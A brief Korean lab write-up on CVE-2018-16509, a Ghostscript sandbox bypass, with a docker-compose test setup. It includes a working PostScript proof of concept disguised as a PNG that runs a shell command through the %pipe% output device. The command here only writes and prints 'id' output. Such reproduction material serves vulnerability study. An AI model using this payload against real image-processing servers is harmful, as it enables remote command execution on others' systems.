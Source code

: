 # CVE-2018-16509

**Contributors**

[정기현](https://github.com/jkh011120)

## 요약

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscript를 우회하여 사용자가 의도치 않은 행위를 하게 합니다. 즉, 파일 확장자로 우회하여 파일업로드 공격이 가능합니다.

## 환경 구성 및 실행

`docker-compose up -d` 커맨드를 입력하여 테스트 환경을 실행합니다 (GhostScript 9.23 및 ImageMagick 7.0.8 버전을 사용합니다).

## poc.ps -> poc.png
Postscript로 코드를 만든 후 확장자를 png로 변경합니다.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

###결과

![](1.png)

![](2.png)

![](3.png)

![](4.png)


###정리


